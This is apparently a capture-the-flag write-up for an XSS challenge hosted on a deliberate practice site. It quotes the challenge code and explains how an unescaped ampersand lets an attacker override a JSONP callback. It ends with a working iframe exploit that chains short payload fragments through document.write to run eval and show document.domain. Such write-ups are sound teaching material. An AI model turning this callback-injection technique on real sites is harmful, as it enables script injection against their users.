 ### Link

https://vulnerabledoma.in/xss_2020-06/

### Write_up

Key Codes

```javascript
var callback = function(msg) {
      result.innerHTML = msg;
    }
    document.addEventListener('DOMContentLoaded', function(event) {
      if (getQuery('code')) {
        var code = getQuery('code');
        c.value = code;
        checkCode(code);
      }
    });
    form.addEventListener('submit', function(event) {
      checkCode(c.value);
      event.preventDefault();
    });

    function checkCode(code) {
      var s = document.createElement('script');
      s.src = `/xss_2020-06/check_code.php?callback=callback&code=${encodeURI(code)}`;
      document.body.appendChild(s);
    }

    function getQuery(name) {
      return new URL(location.href).searchParams.get(name);
    }
```

Since the encodeURI Function , we can overide the callback parameter

Example

```
callback=callback&code=1%26callback=alert
```

Now the callback is the alert Function.However，there is a limit to the number of characters of the code parameters in the check.php file.

```php
if (isset($_GET['code']))
{
    $key = $_GET['code'];
}

if (mb_strlen($key, "UTF-8") <= 10)
{
    if ($key == "XSS_ME")
    {
        $result = "Okay! You can access <a href='#not-implemented'>the secret page</a>!";
    }
    else
    {
        $result = "Invalid code: '$key'";
    }
}
```

So, the exploit  as follows:

```javascript
<iframe src="https://vulnerabledoma.in/xss_2020-06/" onload="start()"></iframe>
<iframe src="https://vulnerabledoma.in/xss_2020-06/" name="y" id="test"></iframe>
<iframe src="https://vulnerabledoma.in/xss_2020-06/" name="alert(document.domain)"></iframe>
<iframe src="https://vulnerabledoma.in/xss_2020-06/" name="exploit"></iframe>
 
<script>
    function loadframe(payload,func){
        return new Promise(resolve => {
            test.src = `https://vulnerabledoma.in/xss_2020-06/?code=${payload}%26callback=${func}`;
            test.onload = function(){
                return resolve(true);
            }
        });
    }

    async function start(){
      await loadframe("<script>/*","top.exploit.document.write");
      await loadframe("*/eval(/*","top.exploit.document.write");
      await loadframe("*/top[2]/*","top.exploit.document.write");
      await loadframe("*/.name)//","top.exploit.document.write");
      await loadframe("<\/script>","top.exploit.document.write");
    }
</script>
```

